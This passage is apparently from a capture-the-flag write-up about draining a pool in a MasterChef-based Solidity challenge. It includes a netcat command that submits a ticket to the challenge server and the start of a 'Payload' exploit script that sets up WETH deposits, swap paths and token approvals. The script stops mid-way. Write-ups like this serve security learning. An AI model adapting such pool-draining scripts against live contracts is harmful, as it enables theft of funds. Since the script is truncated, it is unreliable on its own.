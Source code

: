 Then the pool will be empty! We then just has to flag the challenge using `netcat`! 

![Untitled](Untitled%202.png "Using netcat to get the flag!")



### Socials & Payload

| Discord (Join us!) | Github | Twitter | 
| ----------------------------- | ------ | ---------- | 
| https://discord.gg/54Q9pnpQcV |  https://github.com/Ethnical/Swek3      |  https://twitter.com/EthnicalInfo |



```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

//import 'forge-std/Script.sol';

import 'src/Setup.sol';

//import 'forge-std/Test.sol';

contract ContractScript {
  function setUp() public {}

  function run() public payable {
    Setup s = Setup(0x8ceB77a963474dbA300421fc8E8F91831C776dC3);

    MasterChefHelper M = s.mcHelper();

    MasterChefLike ML = M.masterchef();

    WETH9 wet = s.weth();
    uint256 max = type(uint256).max;

    //echo "1\nd85d44b338644cda1cbad7a66918f61ca5356c9f589be69b2a62eb\n" | nc 34.123.187.206 31337
    //vm.deal(address(this), 5000 ether);
    //vm.addr(0xb746dd73a823761682724bcf5f06360680943e14a2e2a212c111c2a0dd469090);

    wet.deposit{value: 1000 ether}();
    address dai = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address[] memory path = new address[](2);
    path[0] = address(wet);
    path[1] = address(dai);

    address[] memory path2 = new address[](2);
    path2[0] = address(wet);
    path2[1] = address(usdc);

    wet.approve(address(M.router()), 10000 ether); //Approve router
    //wet.approve(0xC3D03e4F041Fd4cD388c549Ee2A29a9E5075882f, 10000 ether); //approve pool
    ERC20Like(dai).approve(address(M), 100000000000 ether);
    ERC20Like(usdc).approve(address(M), 100000000000 ether);

```